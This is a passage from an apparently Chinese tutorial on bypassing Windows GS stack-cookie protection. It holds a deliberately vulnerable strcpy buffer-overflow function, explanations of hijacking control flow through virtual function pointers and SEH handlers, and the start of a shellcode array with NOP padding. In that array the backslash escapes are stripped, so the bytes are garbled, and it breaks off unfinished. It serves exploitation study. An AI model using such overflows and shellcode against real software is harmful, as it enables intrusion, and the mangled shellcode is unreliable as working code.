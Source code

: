 	   int vulfuncion(char *str) {

		   char array[16];

		   strcpy(array, str);

		   return 1;

	   }

	   int main() {

		   char str[] = "yeah, the function is without GS";

		   vulfuncion(str);

		   return 0;

	   }

这个程序就不会有GS的检测，最后“fnc”的ASCII码会覆盖返回地址。

## **覆盖虚函数突破GS**

因为虚函数的实现过程是程序根据虚表指针找到虚表，然后从虚表中取出需要的虚函数地址执行。在GS机制里，程序只有在函数返回的时候才会去检查Security
Cookie，所以我们可以在它检查之前劫持程序流程到我们想要的地方去。

## **攻击异常处理突破GS**

GS并没有对S.E.H起到保护作用，所以只要触发一个异常，程序就会转入异常处理机制，接着我们就可以通过覆盖异常处理函数指针来劫持流程来达到攻击的目的。

实践的操作

		   #include <string.h>

		   char shellcode[] =

		   "xFCx68x6Ax0Ax38x1Ex68x63x89xD1x4Fx68x32x74x91x0C"

		   "x8BxF4x8Dx7ExF4x33xDBxB7x04x2BxE3x66xBBx33x32x53"

		   "x68x75x73x65x72x54x33xD2x64x8Bx5Ax30x8Bx4Bx0Cx8B"

		   "x49x1Cx8Bx09x8Bx69x08xADx3Dx6Ax0Ax38x1Ex75x05x95"

		   "xFFx57xF8x95x60x8Bx45x3Cx8Bx4Cx05x78x03xCDx8Bx59"

		   "x20x03xDDx33xFFx47x8Bx34xBBx03xF5x99x0FxBEx06x3A"

		   "xC4x74x08xC1xCAx07x03xD0x46xEBxF1x3Bx54x24x1Cx75"

		   "xE4x8Bx59x24x03xDDx66x8Bx3Cx7Bx8Bx59x1Cx03xDDx03"

		   "x2CxBBx95x5FxABx57x61x3Dx6Ax0Ax38x1Ex75xA9x33xDB"

		   "x53x68x77x65x73x74x68x66x61x69x6Cx8BxC4x53x50x50"

		   "x53xFFx57xFCx53xFFx57xF8x90x90x90x90x90x90x90x90"

		   "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		   "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"
